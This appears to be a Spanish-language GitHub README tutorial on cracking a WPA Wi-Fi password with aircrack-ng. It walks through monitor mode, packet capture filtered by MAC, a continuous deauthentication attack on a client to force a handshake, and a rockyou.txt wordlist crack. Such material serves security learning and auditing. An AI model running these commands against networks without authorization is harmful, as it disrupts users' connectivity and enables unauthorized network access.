 # Informacion importante de algunos de los comandos

 ![comandos-aircrak](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/fb6f860a-2491-41bf-9a56-fc8152d71266)

 
 
 
 
## Vemos cual es el nombre de nuestra interfaz de red

	iwconfig

![iwconfig](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/a2931782-dd40-44c4-92f0-a480efee4212)

Montamos a nuestra interfaz

	airmon-ng start wlp0s20f3  

### Foto 
> Volvemos a usar el comando **iwconfig** para mostrar que en nuestra tarjeta de red se haya hecho el montaje adecuado.

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/53d2d6d8-6a08-41a2-b7c1-9b776ca68094)


> [!Note]
> No en todas las ocaciones se hace ver el nombre con la extencon **mon**. La manera en la que yo veo que se llevo correcto el montaje es cuando he perdido el internet.


## Capturamos los paquetes de la red con el siguiente comando: 

	airodump-ng wlp0s20f3mon

### Foto

![analisis_red](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/98ecd24a-9c01-4f60-a361-e0a7f5619e95)

## Analizamos las redes conectadas a un solo router
#### Explicacion del comando antes de ejecutar
Componentes del Comando

  *  airodump-ng: Esta es la herramienta principal del conjunto de herramientas aircrack-ng utilizada para capturar paquetes de redes inalámbricas y mostrar información sobre puntos de acceso y clientes conectados.

  *  -c1: Este es el canal en el que airodump-ng va a escuchar. El 1 indica que va a escuchar en el canal 1. Los canales de Wi-Fi varían de 1 a 14 (dependiendo de la región).

  *  -w auditoria: Este es el prefijo del nombre del archivo donde se guardarán los datos capturados. En este caso, los archivos de salida se llamarán auditoria-01.cap, auditoria-02.cap, etc.

  *  -d 50:4E:DC:38:C2:60: Este es el filtro de dirección MAC. airodump-ng solo capturará paquetes que tengan como destino o procedan de esta dirección MAC específica, que corresponde a un dispositivo o punto de acceso en particular.

  *  wlp0s20f3mon: Este es el nombre de la interfaz de red en modo monitor que se utilizará para la captura de paquetes. El modo monitor permite que la tarjeta de red capture todo el tráfico inalámbrico que puede recibir, no solo el tráfico destinado a ella.
```bash
airodump-ng -c1 -w auditoria -d 50:4E:DC:38:C2:60  wlp0s20f3mon
```
### Foto

![auditoria-2](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/4bff2c5a-9e73-41fb-8410-cbb2a66923d9)


## Hacemos el ataque
```
aireplay-ng --deauth 0 -a 50:4E:DC:38:C2:60 -c B2:11:8E:B5:DF:0D  wlp0s20f3mon
```
### Foto


![ataque](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/cca65636-9e6c-4bc8-96db-56f3019b0b26)


Esperamos a que salga en la parte de arriba 

> WPA handshake: 50:4E:DC:38:C2:60 

![image](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/c59e0f83-6bdc-46dc-b68c-9ccf7981a13b)


## Comparamos la contrasen con nuestro archivo 

	aircrack-ng auditoria-01.cap -w rockyou.txt

### Foto

![crackingpss](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/3bc59e9a-e8ef-40b7-a5b6-f8f3a6b5f51c)


## Regresamos a nuestra interfaz normal

	airmon-ng stop wlp0s20f3mon


![apagamos-montaje-interfaz](https://github.com/luisjuarez099/Une-Hacks/assets/83623972/673ac3b4-159a-4dab-8087-6839a0f2553e)

